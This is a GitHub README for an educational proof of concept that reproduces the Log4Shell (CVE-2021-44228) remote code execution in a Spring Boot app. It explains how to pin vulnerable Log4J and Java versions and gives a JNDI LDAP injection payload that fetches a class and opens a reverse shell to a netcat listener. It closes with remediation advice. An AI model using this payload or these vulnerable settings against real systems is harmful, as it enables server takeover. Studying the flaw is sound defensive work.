



# Proof of Concept Spring-boot Log4J LDAP Exploit (CVE-2021-44228)
In this study project we demonstrate how to reproduce the Log4J LDAP exploit <a href="https://nvd.nist.gov/vuln/detail/CVE-2021-44228">(CVE-2021-44228)</a> in a Spring Boot web application. 
In the example application we see that Spring Boot version 2.6.1 is not vulnerable to the exploit by default as Log4J is not being used.
<a href="https://docs.spring.io/spring-boot/docs/2.6.6/reference/htmlsingle/#features.logging">Instead the Logback logger is used by default</a>:
```
[INFO] +- org.springframework.boot:spring-boot-starter-web:jar:2.6.1:compile
[INFO] |  +- org.springframework.boot:spring-boot-starter:jar:2.6.1:compile
[INFO] |  |  +- org.springframework.boot:spring-boot-starter-logging:jar:2.6.1:compile
[INFO] |  |  |  +- ch.qos.logback:logback-classic:jar:1.2.7:compile
```
To ensure that the Log4J-logger is used we replace `org.springframework.boot:spring-boot-starter-logging:jar` with `org.springframework.boot:spring-boot-starter-log4j2:jar` in the <a href="./pom.xml">pom.xml</a> file.
```
[INFO] +- org.springframework.boot:spring-boot-starter-log4j2:jar:2.6.1:compile
[INFO] |  +- org.apache.logging.log4j:log4j-slf4j-impl:jar:2.14.1:compile
[INFO] |  |  +- org.slf4j:slf4j-api:jar:1.7.32:compile
```
In Log4J version 2.14.1 the LDAP vulnerability is still present.
Additionally, it is necessary to use a Java 8 version lower than update 191, as in higher versions of Java
the property com.sun.jndi.ldap.object.trustURLCodebase is set to false by default and LDAP lookups are no longer executed by default.
# Tools
<a href="https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html">Java 8 (version < 191)</a> or 
<a href="https://archive.org/details/jdk-8u181">archive.org</a></br>
<a href="https://www.python.org/downloads/" >Python 3</a><br/>
<a href="https://maven.apache.org/download.cgi">Maven 3</a><br/>

# How it works
All actions are performed on a local test machine with the IP address `192.168.1.6`. 
It’s important to note that in a production environment the LDAP reference server and web server are considered untrusted.
These have been set up by a malicious actor with the intention of allowing your web application to download malicious code via the Log4J exploit.

<br/>
It begins with a Spring Boot web application that uses a vulnerable version of Log4J.
The web application has a public REST endpoint that can be accessed via a GET request.
A typical request would look like this: http://192.168.1.6:8080/example?name=Jim. The response we receive is "Hello World! Jim."

-A-
For the exploit we replace the name parameter with a link to the attackers LDAP server:
http://192.168.1.6/example?name=${jndi:ldap://192.168.1.6:1389/Exploit}
The example REST endpoint receives the parameter and attempts to log it using Log4J. At this point, Log4J recognizes that the address is an LDAP reference and establishes a connection to the attackers LDAP server.

-B-
The LDAP server responds with a reference to a class file containing executable code.

-C-
This reference class file is downloaded and executed. In this case the downloaded class includes code to launch a shell.

-D-
The input and output of the initiated shell are sent through a socket to the attackers netcat listener. This allows the attacker to execute commands and code on the web application's server (RCE).

# How to Execute
<details>
  <summary>Step 1: Run start-poc.bat</summary>
  This process will take approximately one minute to complete.
</details>
<details>
  <summary>Step 2: Wait for the 4 processes to start, then press Enter to continue.</summary>
  <br/>
</details>
<details>
  <summary>Step 3: Press Enter to send the payload.</summary>
  
</details>
<details>
  <summary>Step 4: Press Enter to terminate all created processes.</summary> 
  Process completed.
</details>

# How to Resolve
As mentioned earlier Spring Boot uses the Logback-logger by default so you should not be vulnerable. 
If you are using Log4J, as in this sample application, make sure you are using at least Spring Boot 2.6.2.
In Spring Boot 2.6.2 version 2.17.1 of Log4J is used which is no vulnerable to the LDAP attack.